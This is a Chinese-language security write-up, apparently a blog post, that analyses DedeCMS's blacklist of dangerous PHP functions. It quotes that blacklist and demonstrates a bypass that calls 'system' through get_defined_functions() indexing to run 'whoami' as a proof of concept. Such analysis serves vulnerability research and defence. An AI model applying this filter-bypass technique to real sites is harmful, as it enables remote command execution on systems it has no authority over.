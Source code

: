**我们接下来一个一个正则来进行分析，查看是否有其他黑名单函数未囊括在其中，接下来进入第一个正则。******  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VSMAZ84a1FAjuawKIMAUUxOVes7Jmz4EwK7PVPq5WunyoFicK6YD3zEicia3Xn6ZFEqsBOrib7JBmCow43NfbQTibiag/640?wx_fmt=png&from=appmsg "")  
```
1.$str = preg_replace("#(/\*)[\s\S]*(\*/)#i", '', $str);
2.
3.global $cfg_disable_funs;
4.$cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite,preg_replace';
5.$cfg_disable_funs = $cfg_disable_funs.',[$]GLOBALS,[$]_GET,[$]_POST,[$]_REQUEST,[$]_FILES,[$]_COOKIE,[$]_SERVER,include,require,create_function,array_map,call_user_func,call_user_func_array,array_filert,getallheaders';
6.foreach (explode(",", $cfg_disable_funs) as $value) {
7.    $value = str_replace(" ", "", $value);
8.    if(!empty($value) && preg_match("#[^a-z]+['\"]*{$value}['\"]*[\s]*[([{']#i", " {$str}") == TRUE) {
9.        $str = dede_htmlspecialchars($str);
10.        die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$str}</pre>");
11.    }
12.}
```  
  
**正则表达式将字符串中的注释部分去除掉****，****然后定义了一个变量 $cfg_disable_funs，用来存储禁用的函数列表，如果该变量未定义，则默认设置一些常见的危险函数。接着****进入****foreach 循环遍历 $cfg_disable_funs 中的函数列表，将每个函数名去除空格，并使用正则表达式匹配是否在 $str 中存在该函数调用。如果匹配成功，则将 $str 使用 dede_htmlspecialchars 处理****不解析****，并输出提示信息表示存在恶意代码，然后终止程序运行。******  
  
**第一段正则匹配中禁用的函数有****phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite,preg_replace，[$]GLOBALS,[$]_GET,[$]_POST,[$]_REQUEST,[$]_FILES,[$]_COOKIE,[$]_SERVER,include,require,create_function,array_map,call_user_func,call_user_func_array,array_filert,getallheaders。****这里我们不能用常规思路，我们应该想想还能用哪些偏门函数。get_defined_functions()并未在上述黑名单中，所以这里先想到的是get_defined_functions()绕过，思路如下: 通过get_defined_functions()索引相关系统函数，再去动态调用其函数传参命令进行RCE，下面是我的本地实验过程。**  
```
1.<?php
2.$functions = get_defined_functions()["internal"];
3.$position = array_search("system", $functions);
4.
5.if ($position !== false) {
6.    echo "success: " . $position."\n";
7.} else {
8.    echo "fail";
9.}
```  
  
**首先写了个索引程序，尝试索引system所在的系统定义函数数组位置，并回返他的位置参数，我这里索引出来的位置是383。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VSMAZ84a1FAjuawKIMAUUxOVes7Jmz4E4BKx7fLItYZBZMzY5VE0Q9ft2cEhGiaUvAaH4ibt2EnEu0aybia2bPTJA/640?wx_fmt=png&from=appmsg "")  
  
**接着去进行动态函数调用并且传参whoami，成功执行。******  
```
1.$a=(get_defined_functions()["internal"][383]);
2.$a('whoami');
```  
  